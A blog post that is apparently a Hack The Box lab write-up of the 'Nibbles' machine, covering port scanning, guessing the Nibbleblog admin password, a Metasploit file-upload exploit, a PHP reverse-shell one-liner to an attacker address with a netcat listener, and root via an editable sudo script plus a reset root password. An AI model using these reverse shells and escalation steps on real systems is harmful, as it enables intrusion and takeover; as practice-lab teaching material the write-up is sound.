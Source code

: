 ```yaml
---
layout: post
title: "HackTheBox: Nibbles write-up"
date: 2018-06-27
excerpt: "Simple rooting thanks to default passwords and file privilege misconfigurations."
tags: [Hack The Box, Pentesting, Default Password, Nibbleblog, Permissions]
comments: true
feature: https://www.linuxcloudvps.com/blog/wp-content/uploads/2016/05/nibbleblog.jpg
---
```


# Hack The Box: Nibbles machine write-up

This writeup will be shorter than usual given that the machine was fairly easy to root. The ip is 10.10.10.75.

#### Enumeration

As always, first of all I enumerate open ports to discover the services running in the machine. I ran the following:

```sh
nmap -sC -sV -oA first 10.10.10.64
```

And the result was:

```sh
# Nmap 7.01 scan initiated Tue Jun 26 12:27:14 2018 as: nmap -sV -sC -oA nmap/initial 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.047s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|_  256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn\'t have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 26 12:27:38 2018 -- 1 IP address (1 host up) scanned in 25.00 seconds
```

Not many things in here, so I decide to check the webserver on port 80. Initially I don't find anything interesting, just a 'hello world' message, but then I inspect the server's response and find out about a directory called 'nibbleblog'.

*Initial file*

![Img](/assets/posts_details/Nibbles/images/initial.png "Img")

*Intercepted response*

![Img](/assets/posts_details/Nibbles/images/burp.png "Img")

*Blog on /nibbleblog directory*

![Img](/assets/posts_details/Nibbles/images/nb.png "Img")

That's when I fire up DirBuster and get down to business. I set the initial directory to be nibbleblog and let it run. It enumerated over [400 directories/files](files/DirBusterReport-10.10.10.75-80.txt), but only one was of interest: `admin.php`.

*Admin.php login*

![Img](/assets/posts_details/Nibbles/images/login.png "Img")

As I hadn't found any credentials anywhere, it looked like we had to guess the password. Trying with the following credentials resulted in success:

* Username: admin
* Password: nibbles

#### Exploit

Once in, we had to find some vulnerability which would allow us to get RCE. After googling for a while, I came across one in metasploit. It was `multi/http/nibbleblog_file_upload`. We couldn't have used it earlier, as it required the username and password to log in to the control system.

It basically takes advantage of an image vulnerability which lets you upload php code instead. So, after setting the parameters, we get a meterpreter session

*Meterpreter session*

![Img](/assets/posts_details/Nibbles/images/msp.png "Img")

However, this is not a real shell, so there are many limitations (we can execute limited commands like `cat` or `ls`, but not `whoami`, for instance). That said, we could read the user flag.

To get around this issue, I used a php one-liner reverse shell and listened on another terminal window with netcat. Besides, I changed the metasploit payload to `php/reverse_php` so that I could execute the one-liner.

* `php -r '$sock=fsockopen("10.10.14.47",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

* `nc -lnvp 1234`

*New payload with fully upgraded reverse php shell*

![Img](/assets/posts_details/Nibbles/images/php.png "Img")

#### Root

After reading user flag we initially discover a zip file called `personal.zip`. I unzipped it and going down two directories to `personal/stuff` I come across a file called `monitor.sh`.

The first thing I usually do is run `sudo -l` and then `linenum.sh`. Well, this time it wasn't even necessary to do the second one, as `sudo -l` revealed that we could edit the file `monitor.sh` and run it as sudo. And everyone knows that means we own the box.

*`sudo -l` output*

![Img](/assets/posts_details/Nibbles/images/sudol.png "Img")

We can just write to the file and then run it:

*Getting the root hash*

![Img](/assets/posts_details/Nibbles/images/root.png "Img")

In order to achieve persistency (until the root password is changed), we can set the root password and log in through ssh:

*Getting to be root*

![Img](/assets/posts_details/Nibbles/images/pers1.png "Img")
---
![Img](/assets/posts_details/Nibbles/images/pers2.png "Img")

*Diego Bernal Adelantado*
